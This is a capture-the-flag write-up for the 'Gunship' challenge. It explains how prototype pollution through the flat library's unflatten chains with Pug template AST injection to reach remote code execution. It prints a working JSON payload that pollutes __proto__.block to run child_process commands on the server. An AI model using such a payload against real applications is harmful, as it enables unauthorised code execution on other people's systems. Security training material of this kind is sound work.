




Gunship

# Solution

## 1. Initial Recon

- The homepage displays some basic information and an input field asking:  
  `Who's your favourite artist?`  
  

- When submitting the form, we capture the following request/response in Burp Suite:  
  

- We are given the application source code, so we inspect the logic that handles the form submission:
```js
router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});
```
- At first glance, there doesn't appear to be any bugs in this code.
- Reading through the `entrypoint.sh` file, we see that the flag file is created with a random name. To read the flag, it is likely that we need to achieve remote code execution (RCE).
```sh
# Generate random flag filename
FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
mv /app/flag /app/flag$FLAG
```
- Returning to the `/api/submit` endpoint, it is clear that the input we send is only used to check the artist's name, and nothing else is passed through. However, one suspicious part is the use of `pug.compile` to create the response instead of handling it normally. Why parameterize with `{user}` when only the fixed value `guest` is passed? The only approach now is to check the methods used in the application to see if any of them have vulnerabilities, starting with `unflatten()` and then `pug.compile`.
- After researching, we find some interesting information:
    - `unflatten` (from the `flat` library v5.0.0): This function is used to process `req.body` at the line `const { artist } = unflatten(req.body);`. This version (or its configuration/usage in this application) has a Prototype Pollution vulnerability, allowing attackers to overwrite or add properties to `Object.prototype` by sending JSON with keys like `__proto__`.
    - `pug` (v3.0.0): This template engine has an AST Injection vulnerability. When compiling a template (`pug.compile`), Pug uses some internal properties. If we pollute the prototype of `Object` and add a `block` property, Pug will use it during code generation, allowing us to inject arbitrary JavaScript code.

- First, we send a payload to enumerate files:
```json
{
    "artist.name": "Haigh",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('ls /app > /app/static/out.txt')"
    }
}
```
- Then, we check the result in `/static/out.txt`:
 
- Next, we take the name of the flag file and include it in this payload:

- Finally, we check `/static/flag.txt` and retrieve the flag:
